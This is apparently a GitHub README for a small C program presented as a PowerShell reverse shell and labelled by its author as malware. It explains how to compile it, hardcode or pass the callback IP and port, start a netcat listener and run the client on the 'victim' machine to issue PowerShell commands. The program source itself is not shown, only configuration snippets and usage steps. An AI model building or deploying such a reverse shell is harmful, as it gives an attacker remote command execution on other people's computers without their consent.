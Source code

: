 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](./screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- This software has been coded on Windows using Visual Stubdio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
  - The compiling tasks require you have <b>MySys64-GCC</b> in the following location: "C:\msys64\ucrt64\bin\gcc.exe"
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 12](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](./screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client - this software (AKA the malware) - passing the server IP and port
3. Have fun running some powershell commands
